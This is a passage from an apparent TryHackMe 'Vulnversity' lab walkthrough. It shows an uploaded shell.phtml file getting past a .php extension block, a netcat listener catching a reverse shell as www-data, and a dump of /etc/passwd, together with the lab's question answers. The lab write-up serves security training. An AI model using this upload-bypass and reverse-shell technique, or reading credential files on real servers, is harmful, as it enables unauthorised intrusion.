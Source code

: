 ![uploads](../assets/images/tryhackme/offensive_pentesting/vulnversity/uploads.png)  
and click on the _shell.phtml_ file.

Now, fingers crossed, you should get a shell to the target machine on the listener:

```bash
root@ip-10-10-14-221:~# nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.209.195 39418 received!
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:58:50 up  2:33,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$
```

As we can confirm with the **id** and **whoami** command we have now access to the target machine with the user **www-data**.

**Question:** What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out. **.php**  
**Question:** What extension is allowed after running the above exercise? **.phtml**  
**Question:** What is the name of the user who manages the webserver?

```bash
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```